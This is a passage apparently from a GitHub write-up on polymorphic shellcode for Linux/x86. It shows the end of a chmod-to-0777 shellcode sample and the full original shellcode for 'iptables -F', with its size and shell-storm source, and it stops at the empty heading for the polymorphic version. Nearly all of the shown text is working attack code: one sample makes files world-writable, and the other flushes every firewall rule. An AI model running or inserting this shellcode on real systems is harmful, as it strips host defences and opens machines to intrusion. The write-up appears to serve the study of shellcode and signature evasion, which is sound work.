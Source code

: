 ```nasm
push eax
push ebx
push edx  
mov ebx, esp        ; const char *pathname
shr ecx, 16         ; mode_t mode -> 0777
xor eax, eax
add eax, 0xf        ; sys_chmod
int 0x80
```

## Sample 2: Linux/x86 - iptables -F

- Original size: 58 bytes
- Polymorphic size: 67 bytes (15% increase)
- Source: [http://shell-storm.org/shellcode/files/shellcode-361.php](http://shell-storm.org/shellcode/files/shellcode-361.php)

### Original code

```nasm
section .text

global _start

_start:

jmp short callme

main:

pop esi
xor eax,eax
mov byte [esi+14],al
mov byte [esi+17],al
mov long [esi+18],esi
lea ebx,[esi+15]
mov long [esi+22],ebx
mov long [esi+26],eax
mov al,0x0b
mov ebx,esi
lea ecx,[esi+18]
lea edx,[esi+26]
int 0x80

callme:

call main
db '/sbin/iptables#-F#'
```

### Polymorphic code
